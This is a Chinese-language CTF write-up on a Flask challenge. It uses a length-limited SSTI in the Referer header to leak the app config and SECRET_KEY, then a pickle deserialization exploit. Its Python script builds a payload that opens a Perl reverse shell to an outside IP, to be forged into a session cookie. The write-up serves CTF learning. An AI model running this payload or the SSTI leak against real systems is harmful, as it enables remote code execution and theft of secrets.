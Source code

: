 ```python
```

在404里有一个SSTI

在Referer中进行SSTI，但是在404的路由中调用了vaild_url(referer)限制了长度为16所以就只能构造{{config}}

[https://www.notion.so](https://www.notion.so)

<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': b'\xef\xca;\x11._ \x81)\xea\x16\xbb\x9a\xb5\xbe\x0e', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'BOOTSTRAP_USE_MINIFIED': True, 'BOOTSTRAP_CDN_FORCE_SSL': False, 'BOOTSTRAP_QUERYSTRING_REVVING': True, 'BOOTSTRAP_SERVE_LOCAL': False, 'BOOTSTRAP_LOCAL_SUBDOMAIN': None}>

但是在源码中还存在一个地方，可以进行pickle反序列化

![Untitled](Python%202c1838eaf9de4ce0a9b5157ca12cec49/Untitled%206.png)

拿别人的exp生成一下，也记录一下这种弹shell方式

```python
import pickle
import base64
import os
class Person(object):
    def __reduce__(self):
        return (os.system,("""perl -e 'use Socket;$i="174.1.231.162";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'""",))
admin=Person()
print(base64.b64encode(pickle.dumps(admin)))
```

然后用flask_cookie_session_manager来处理最后把cookie带上就好
